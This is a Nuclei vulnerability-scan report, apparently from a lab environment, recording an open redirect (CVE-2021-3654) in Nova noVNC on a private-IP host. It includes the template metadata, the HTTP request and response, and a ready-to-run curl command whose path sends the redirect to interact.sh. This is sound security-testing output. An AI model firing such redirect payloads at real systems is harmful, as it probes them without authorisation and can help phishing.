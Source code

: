 ### Nova noVNC - Open Redirect (CVE-2021-3654) found on http://10.10.132.79:8080/

----
**Details**: **CVE-2021-3654** matched at http://10.10.132.79:8080/

**Protocol**: HTTP

**Full URL**: http://10.10.132.79:8080//interact.sh/%2f..

**Timestamp**: Sat Jul 1 18:52:01 +0100 BST 2023

**Template Information**

| Key | Value |
| --- | --- |
| Name | Nova noVNC - Open Redirect |
| Authors | geeknik |
| Tags | redirect, novnc, cve, cve2021, seclists |
| Severity | medium |
| Description | Nova noVNC contains an open redirect vulnerability. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-601](https://cwe.mitre.org/data/definitions/601.html) |
| CVE-ID | [CVE-2021-3654](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-3654) |
| CVSS-Score | 6.10 |

**Request**
```http
GET //interact.sh/%2f.. HTTP/1.1
Host: 10.10.132.79:8080
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 301 Moved Permanently
Connection: close
Date: Sat, 01 Jul 2023 17:51:17 GMT
Location: //interact.sh/%2f../
Server: SimpleHTTP/0.6 Python/3.6.9


```

References: 
- https://seclists.org/oss-sec/2021/q3/188
- http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-3654
- https://bugs.python.org/issue32084
- https://opendev.org/openstack/nova/commit/04d48527b62a35d912f93bc75613a6cca606df66
- https://nvd.nist.gov/vuln/detail/cve-2021-3654

**CURL command**
```sh
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36' 'http://10.10.132.79:8080//interact.sh/%2f..'
```

----

Generated by [Nuclei v2.9.7](https://github.com/projectdiscovery/nuclei)